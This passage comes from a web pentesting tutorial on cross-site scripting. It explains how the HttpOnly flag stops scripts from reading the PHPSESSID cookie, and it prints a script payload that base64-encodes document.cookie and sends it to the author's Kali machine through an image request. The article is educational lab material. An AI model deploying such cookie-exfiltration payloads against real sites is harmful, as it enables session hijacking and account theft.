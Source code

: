 and you click on *Submit*, you are going to see all your cookies in the screen... or not?

If you make that, you are going to see only the *security* cookie, like in the following screenshot 

![](/assets/images/2022-11-12-pentesting-article-1/xss-cookies-alert.png)

but... Why are we not seeing the value of the *PHPSESSID* cookie? That's because the value *true* in the *HttpOnly* flag of the cookie *PHPSESSID*.

*HttpOnly* is an additional flag included in a Set-Cookie HTTP response header. Using the *HttpOnly* flag when generating a cookie helps mitigate the risk of client side script accessing the protected cookie (if the browser supports it). You can check more information about the *HttpOnly* flag in the following link

[Link of OWASP about the HttpOnly flag](https://owasp.org/www-community/HttpOnly)

For those who do not do web pentesting or who do not regularly deal with XSS, this flag may not be familiar, but for those of us who are used to looking for and reporting these vulnerabilities in bug bounty programs, this flag is the main problem we encounter when it comes to finding a real impact in an XSS.

Take a look at the following code

{% include codeHeader.html %}
```html
<script>
   var i=new Image;
   i.src="http://192.168.240.129/"+btoa(document.cookie);
</script>
```

This code is a very common way to try to exfiltrate the user cookies during an XSS exploitation. This code is executed in the client side (XSS is a client side vulnerability) and try to import a image from the IP 192.168.240.129, which is the IP of my Kali. The requested path is the user cookies encoded in *base64*. The *base64* encoding is not strictly necessary but it can be useful for passing data in URLs when the data includes non-url friendly characters.
